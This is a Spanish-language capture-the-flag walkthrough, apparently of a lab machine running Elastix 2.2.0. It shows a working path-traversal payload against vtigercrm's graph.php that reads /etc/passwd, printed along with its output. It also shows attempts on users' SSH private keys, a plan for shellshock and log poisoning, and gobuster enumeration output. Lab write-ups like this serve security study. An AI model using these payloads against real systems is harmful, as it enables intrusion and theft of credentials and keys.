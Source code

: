 Otra cosa interesante es la ruta **/var/www/cgi-bin**, con lo que podríamos intentar realizar un **shellshock attack**.  
También tenemos un ruta de log; **/var/log/asteriskSorry!**.  
Y unas credenciales para lo que parece un Flash Operator Panel en la ruta **/var/www/html/panel/**, en la cual no hay nada. Existe pero sale en blanco.

Y todo eso, en principio, es lo que saco en claro el archivo amportal.conf recogido gracias al la vulnerabilidad LFI de este servicio Elastix 2.2.0.

¿Qué cosas puedo hacer?

- Seguir con el LFI, visualizando más archivos (/etc/passwd, id_rsa, etc).
- Buscar subidrectorios y archivos con wfuzz, gobuster, etc.
- Conectarme al servicio Asterisk de alguna forma con las credenciales recogidas.
- Conectarme a la base de datos por el puerto 3306 con las credenciales recogidas.
- Intentar un shellshock attack.
- Intentar un log poisoning gracias al LFI y esa ruta de log; */var/log/asteriskSorry!*.


Primero seguiré con el LFI, para consultar sobre ello puedo ir a mis notas de obsidian -vosotros no- o mi github público por [aquí](https://guiseporaki.github.io/posts/Hacking-Web/#lfi---local-file-inclusion).  
El primer archivo que busco es el **/etc/passwd**, cambio amposta.conf en la URL por ese archivo; `https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/passwd%00&module=Accounts&action`:

```plaintext
root:x:0:0:root:/root:/bin/bash
... SNIP ....
spamfilter:x:500:500::/home/spamfilter:/bin/bash
haldaemon:x:68:68:HAL daemon:/:/sbin/nologin
xfs:x:43:43:X Font Server:/etc/X11/fs:/sbin/nologin
fanis:x:501:501::/home/fanis:/bin/bash
Sorry! Attempt to access restricted file.
```

Ahora intentaré capturar el archivo **id_rsa** del usuario **fanis** o del usuario **smapfilter**. Para */home/fanis/.ssh/id_rsa/* no sale nada, lo mismo para el usuario spamfilter. -Siempre buscamos usuarios que esten en la carpeta /home-.  
La ruta de log vista antes; */var/log/asteriskSorry!* tampoco carga. Ni tampoco la típica de los logs de Apache; */var/log/apache2/access.log*.

### Buscando subdirectorios y archivos

Buscaré subdirectorios y archivos de la web con **gobuster**:

```sh
❯ gobuster dir -u https://10.10.10.7 -w /opt/SecLists/Discovery/Web-Content/common.txt -k
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     https://10.10.10.7
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /opt/SecLists/Discovery/Web-Content/common.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2024/02/17 09:29:01 Starting gobuster in directory enumeration mode
===============================================================
/.hta                 (Status: 403) [Size: 282]
/.htaccess            (Status: 403) [Size: 287]
/.htpasswd            (Status: 403) [Size: 287]
/admin                (Status: 301) [Size: 309] [--> https://10.10.10.7/admin/]
/cgi-bin/             (Status: 403) [Size: 286]                                
/configs              (Status: 301) [Size: 311] [--> https://10.10.10.7/configs/]
```